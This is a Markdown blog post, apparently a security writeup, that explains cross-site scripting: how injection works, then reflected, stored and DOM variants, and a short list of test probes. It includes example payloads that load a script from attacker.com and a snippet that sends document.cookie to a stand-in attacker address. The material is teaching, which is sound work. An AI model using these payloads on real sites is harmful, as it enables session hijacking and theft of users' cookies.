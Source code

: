 ```yaml
---
title: Cross Site Scripting (XSS)
date: 2022-05-18 12:00:00 -0400
image: 
 path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf0.jpg
 height: 3000
 width: 450
categories: [HTB Writeups, Cyber Apocalypse CTF]
tags: [web security, ctf, owasp]
---
```


Cross-site scripting known as XSS is a web vulnerability in which malicious scripts are injected int benign and trusted websites. XSS occur when an attacker send malicious code in any user input fields in a browser to a different end-user.

## Mechanisms

In an XSS attack the attacker inject script in HTML code so you'll have to know javascript and HTML syntax, wbe uses scripts to control client-side application logic and make the website interactive, for example this script generates _Hello!_ pop-up on the web page:

```
<html>
    <script>alert("Hello!");</script>
    <h1>Welcome to my page</h1>
<html>

```

Script like this that are embedded in HTML file instead of loaded from are separated file are called _inline scripts_. These script causes XSS vulnerabilities, scripts can also be loaded from an external file like this: `<script src="URL_OF_EXTERNAL_FILE"></script>`

If the website doesn't validate the input before render the message, it will cause XSS, _validating_ user input means that the application checks that the user input meets a certain standard, _sanitizing_ in the other hand means that the application modifies special characters in the input that can be used to interfere with HTML logic before further processing.

As a result the inline script will cause a redirection to an another url. The src attribute of HTML script tag allwo to load javascript form external source, this code will execute the content of *[](https://attacker.om/xss.js/*)[https://attacker.om/xss.js/*](https://attacker.om/xss.js/*) on the victim browser:

```
<script src=http://attacker.com/xss.js></script>

```

This example is not exploitable because there is no way of inject this in other users pages, but let´s say the site allow users to subscribe to a newsletter with the URL `https://subscribe.com?email?=USER_EMAIL` after the user visit this page, they are automatically subscribed, and the confirmation message will appear on the web, so we can inject xss payload for users who visit this URL `https://subscribe,com?email=<script>location="<http://attacker.com>";</script>` since the malicious script is incorporated in the page, the user will think its safe, so we can access any resources that the browser stores for that site, for example this code will steal user cookies by sending a request to the attacker IP.

```
<script>image=new Image();
image.src='http://atttacker_site_ip/?c='+document.cookie;</script>

```

## Reflected XSS

Input from a user is directly returned to the browser, permitting injection of arbitrary content A classic example would be a URL, which contain a parameter that can be altered by a user, where the input is mirrored and made visible. Example URL: '[](https://example.com/?user=jesus)[https://example.com/?user=jesus](https://example.com/?user=jesus)' Example Output:

```
<span id='user'>
	<b> Hi jesus</b>
</span>

```

## Stored XSS

Input from a user is stored on the server (database) and returned later without proper escaping and sanitization to the user

## DOM XSS

Input from a user is inserted into the page's DOM without proper handling, enabling insertion of arbitrary nodes

![https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli1.jpg](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli1.jpg)

Recognition for XSS

-   Figure out where it goes, embedded in a tag attr or embedded in a script?
-   Figure out how special characters are handled: A good way is to input something like `< > ' " { } ; :`
-   `"><h1>test</h1>`
-   `'+alert(1)+'`
-   `"onmouseover="alert(1)`
-   `http://onmouseover="alert(1)`
